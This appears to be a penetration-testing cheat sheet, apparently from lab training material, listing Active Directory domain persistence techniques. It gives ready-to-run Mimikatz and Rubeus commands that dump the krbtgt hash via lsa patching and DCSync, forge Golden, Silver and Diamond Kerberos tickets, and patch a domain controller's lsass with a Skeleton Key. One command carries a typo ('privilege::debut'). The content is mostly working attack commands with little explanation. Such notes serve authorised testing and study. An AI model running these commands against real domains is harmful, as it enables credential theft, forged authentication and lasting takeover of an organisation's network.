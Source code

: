 # Domain Persistence
## Golden Ticket
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'

# Check Permission
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

## Silver Ticket
```powershell
# Rubeus
Rubeus.exe -args silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:[local computer hash] /sid:[Domain SID] /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt

# Mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:http /rc4:<local computer hash> /user:Administrator /ptt"'
```

## Diamond Ticket
```powershell
# run elevated shell
Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Skeleton Key
>Is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password.
```powershell
# Run as DA
Invoke-Mimikatz -Command '"privilege::debut" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local

# Access 
Enter-PSSession -ComputerName dcorp-dc -credential dcorp\Administrator
```
> Note: Skeleton Key is not opsec safe and is also known to cause issues with AD CS.
> Do not use it in real assessment.
> Very easy to detect.
